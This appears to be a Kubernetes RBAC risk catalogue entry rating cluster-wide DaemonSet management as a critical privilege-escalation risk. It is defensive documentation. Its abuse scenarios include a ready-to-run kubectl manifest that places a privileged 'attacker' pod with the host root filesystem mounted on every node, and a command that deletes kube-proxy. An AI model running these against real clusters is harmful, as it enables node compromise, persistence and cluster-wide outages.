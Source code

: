 ```yaml
---
id: 1035
title: "Manage DaemonSets cluster-wide (runs on all nodes, high impact)"
description: "Permits creating, updating, or deleting DaemonSets across the cluster. DaemonSets ensure a pod runs on all (or selected) nodes. This is highly critical as it allows deploying privileged pods directly onto every node, leading to widespread node compromise, privilege escalation, and persistent access."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                        |
| ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1035                                                                                                                                         |
| Name                    | Manage DaemonSets cluster-wide (runs on all nodes, high impact)                                                                              |
| Risk Category           | Elevation of Privilege                                                                                                                       |
| Risk Level              | {{< risk Critical >}}                                                                                                                        |
| Role Type               | ClusterRole                                                                                                                                  |
| API Groups              | apps                                                                                                                                         |
| Resources               | daemonsets                                                                                                                                   |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                                     |
| Tags                    | {{< tag "NodeAccess" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting DaemonSets across the cluster. DaemonSets ensure a pod runs on all (or selected) nodes. This is highly critical as it allows deploying privileged pods directly onto every node, leading to widespread node compromise, privilege escalation, and persistent access.

## Abuse Scenarios

1. Create a new DaemonSet that deploys a privileged pod on every node.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: privileged-daemonset
spec:
  selector:
    matchLabels:
      app: privileged-ds
  template:
    metadata:
      labels:
        app: privileged-ds
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
EOF
# Example: kubectl create -n kube-system -f - <<EOF ... EOF

```

2. Delete a critical DaemonSet, disrupting cluster-wide services.

```bash
kubectl delete daemonset <daemonset-name> -n <namespace>
# Example: kubectl delete daemonset kube-proxy -n kube-system

```
